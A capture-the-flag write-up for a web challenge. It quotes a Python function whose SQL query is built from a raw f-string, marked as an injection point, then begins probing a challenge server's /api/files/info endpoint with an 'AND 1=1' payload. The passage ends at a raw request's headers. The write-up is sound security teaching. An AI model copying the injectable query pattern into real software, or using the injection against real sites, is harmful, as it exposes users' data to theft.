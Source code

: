 ## Author
Arjun Lalith
## Approach

### Finding the attack path 

Browsing the website, we find that it is a website that allows you to create an account and host text files.

Next we look at the source code for the web server, and in `database.py` we find see the following function:
```python
def fetch_file_db(user_id,file_id):
    try:
        file = db.session.execute(text(f"SELECT * FROM File WHERE id = {file_id}")).first() #SQL Injection
        if file:
            filepath = decrypt(file.filepath)
            filename = decrypt(file.filename)
            if file.user_id == user_id and filepath is not None and filename is not None:
                return {"id":file.id,"filepath":filepath.decode(),"filename":filename.decode(),"title":file.title}
        return False
    except Exception as e:
        logging.error(e)
        return False
```

We see that this function has an obvious SQL injection, and it is the only database function that queries the database in this manner. This is probably a vector for attack, so let's analyze where this function is being used. 

This function is being in the routes to `/files/download` and `/files/info`.  Let's mess with `/files/info`. First let's upload a file called `flag.txt` to the server and get it's `file_id`. In this case I ended up with a `file_id` of 402. Let's go ahead and send out a request to `/files/info` with an `AND 1=1` payload and see what we get back:
#### Request:
```
POST /api/files/info HTTP/1.1
Host: uscybercombine-s4-web-secure-file-storage.chals.io
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFyanVuIiwiaWQiOjE0OX0.bow8Xe0vVpNhybZknSuCSw9OxDDJfXY3cuXFhcVZ-AE; session=eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIkZpbGUgdXBsb2FkZWQgc3VjY2Vzc2Z1bGx5ISJdfV19.ZoqtyA.0TGe1yoGWseolU539r99gWteGQo
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://uscybercombine-s4-web-secure-file-storage.chals.io/files
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 25
Content-Type: application/x-www-form-urlencoded

```
